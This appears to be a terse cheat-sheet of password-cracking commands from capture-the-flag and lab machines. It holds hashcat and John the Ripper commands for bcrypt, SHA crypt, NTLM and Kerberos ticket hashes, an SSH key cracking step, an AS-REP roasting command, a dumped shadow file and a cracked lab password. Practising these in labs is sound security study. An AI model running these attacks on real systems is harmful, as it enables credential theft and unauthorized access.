 sudo hashcat -m 3200 '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /usr/share/wordlists/rockyou.txt  
sudo hashcat -m 3200 -a 0 -o found '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt 

https://unicornsec.com/home/tryhackme-crack-the-hash
hashcat -m 1800 '$6$GQXVvW4EuM$ehD6jWiMsfNorxy5SINsgdlxmAEl3.yif0/c3NqzGLa0P.S7KRDYjycw5bnYkF5ZtB8wQy8KnskuWQS3Yr1wQ0' /usr/share/wordlists/rockyou.txt  

LTLM
hashcat -m 1000 -a 3 -w 3 a /usr/share/wordlists/rockyou.txt --show

hashcat hash /usr/share/wordlists/rockyou.txt -m 0 --force

/home/kali/tools/cracker/john/run/ssh2john.py id_rsa > id_rsa.hash

john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt



```
sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

cat hash.txt
$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3
hashcat -m 7400 hash.txt /usr/share/wordlists/rockyou.txt --force
```


```
 GetNPUsers.py -format john -no-pass -k -usersfile users -dc-ip 10.10.10.161 HTB.LOCAL/

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 

```
### Kerberos - 13100
```
root@kali:~# hashcat -a 0 -m 13100 tgs-administrator.hash /usr/share/wordlists/rockyou.txt –force
root@kali:~# hashcat -m 13100 tgs-administrator.hash –show
$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*...[hash-value]...:Ticketmaster1968
```
